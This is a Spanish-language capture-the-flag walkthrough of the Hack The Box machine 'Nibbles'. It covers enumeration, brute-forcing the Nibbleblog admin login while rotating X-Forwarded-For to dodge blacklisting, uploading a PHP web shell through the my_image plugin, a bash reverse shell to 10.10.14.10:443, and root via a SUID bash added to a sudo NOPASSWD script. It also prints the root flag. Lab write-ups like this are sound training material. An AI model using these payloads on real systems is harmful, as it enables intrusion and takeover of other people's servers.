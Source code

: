10.10.10.75 Nibbles
--------------------

Tras un escaneo con el nmap damos con los puertos 22 (ssh) y 80 (http)
La version de ssh es OpenSSH 7.2p2 (desactualizada, ahora estamos en la 9.0 a fecha de Octubre/2022 )

```console
└─$ whatweb http://10.10.10.75
http://10.10.10.75 [200 OK] Apache[2.4.18], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.75]
```
O sea que tenemos una web en php. La pagina nos devuelve la frase "Hello World" pero en el codigo fuente nos
dan la ruta /nibbleblog. Este tiene mas cosas, la ruta "/nibbleblog/feed.php", "/nibbleblog/index.php"
"/nibbleblog/admin/js/jquery/jquery.js"

- **"/nibbleblog/feed.php"** -> XML "Nibbles Yum Yum"
- **"/admin"** -> Ruta con todo el codigo fuente. Tiene demasidas cosas. Asi que lo descargare todo.

```console
└─$ wget -m http://10.10.10.75/nibbleblog/admin/
```
Hice una busqueda recursiva de posibles contraseñas pero no halle nada interesante
```console
└─$ grep -rIE "password|pass|key";
```

Resulta que nibbleblog no es un invento de hacktehbox sino que es un CMS de creacion de blogs. Encima tenemos 
todo su codigo fuente descargado (una seccion /admin no deberia ser accesible al publico :V)

Tras una busqueda en **searchsploi** damos con que tenemos sqli tanto en //index.php?page=[SQLi] 
como en /post.php?idpost=[SQLi] pero tras una prueba no funciona.

```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.75/nibbleblog/FUZZ
000000061:   301        9 L      28 W       323 Ch      "content"
000000245:   301        9 L      28 W       321 Ch      "admin"
000000505:   301        9 L      28 W       323 Ch      "plugins"
```
En **/content** tenemos /private con muchos php (ilegibles porque los interpreta directamente) y xmls 
(en users.xml y config.xml confirman que existe el usaurio *"admin"*) el resto de carpetas de /content no tienen 
nada.
En /plugins salen todos los plugins instalados, tras una busqueda en google di con que el "my_image" es 
vulnerable. Aun asi segui enumerando.

```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.75/nibbleblog/FUZZ.php
000000001:   200        60 L     168 W      2985 Ch     "index"
000000245:   200        26 L     96 W       1401 Ch     "admin"
000000701:   200        0 L      11 W       78 Ch       "install"
000000780:   200        87 L     174 W      1621 Ch     "update"
000000029:   200        10 L     13 W       401 Ch      "sitemap"
000000112:   200        7 L      15 W       300 Ch      "feed"
```
/admin me pide creds. Tanto install como update no me interesan

La peticion es esto ```username=admin&password=123``` Me baje este [script](https://eightytwo.net/blog/brute-forcing-the-admin-password-on-nibbles/) para enumerar con el rockyuu. La contraseña al final (intento nº 2500 era
RATE_LIMIT_ERROR = 'Blacklist protection'
"nibbles"). El script, cambia la cabecera "X-Fordwarded-For" (indica nuestra IP) dandole una IP aleatoria
cada pocos intentos y que no nos bloqueen.

Una vez entrado en el panel de administración hay una seccion para configurar los plugins. Entre todos está
el "my_image" de antes. En searchsploit hay un script que tira de metasploit, no esta permitido usarse pero
si se puede analizar el script para hacerlo manualmente.

En my_image se puede subir un archivo, probe a subir un shell.php (backdoor en php) y pese a que salieran 
mensajes de error, funcionó sinr estricciones

```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Tras una busuqeda di con la ruta del [plugin](https://vuldb.com/?id.77730) 
```http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami # -> nibbleblog```
El comando a pasarle es este (los & estan urlencodeados a %26)
```bash -c 'bash -i >%26 /dev/tcp/10.10.14.10/443 0>%261'```

Escucha con netcat y tratamiento de la tty ```sudo nc -nlvp 443```

```
script /dev/null -c bash 
ctrolZ
stty raw -echo; fg
reset xterm
<ml/nibbleblog/content/private/plugins/my_image$ stty rows 33 columns 118
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ export TERM=xterm
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ export SHELL=/bin/bash
```

Bajo un reconocimiento con mi [script]() encontre cosas raras:
- CLiente sql activo (puerto 3306) -> da ACCES DENIED,
- carpeta /home -> user.txt (flag), personal.zip (archivo, no se que es)
- Tambien tiene backups de "gshadow" "passwd" y "shadow" bajo la carpeta /var/backups
- Binario ejecutable por root sin contraseña! (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

El /personal.zip tiene el script mencionado antes "monitor.sh"

```console
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh 
```

El script es largo, al principio pone:
```Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/```

El tema no va de descrifrar el script, da igual lo que haya, el asunto esque si se puede ejecutar como root
sin contraseña una cosa que permita darle comandos al sistema la tenemos liada. Han metido un script complicado
para despistar.
Se puede añadir la linea esta al principio (despues del "#!/bin/bash" ) -> ```chmod u+s /bin/bash```
Lo que hace es convertir la shell (/bin/bash) en un binario SUID (que se peuda ejecutar como root durante un 
tiempo). Si se le pasa el comando -p se hace que sea permanente.

```console
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -u root ./monitor.sh # ejecutarlo como root 
nibbler@Nibbles:/home/nibbler/personal/stuff$ bash -p
bash-4.3# whoami
root
bash-4.3# cd /root
bash-4.3# cat root.txt
728bc9945883952ac8cea0ff12e9b4f3
```



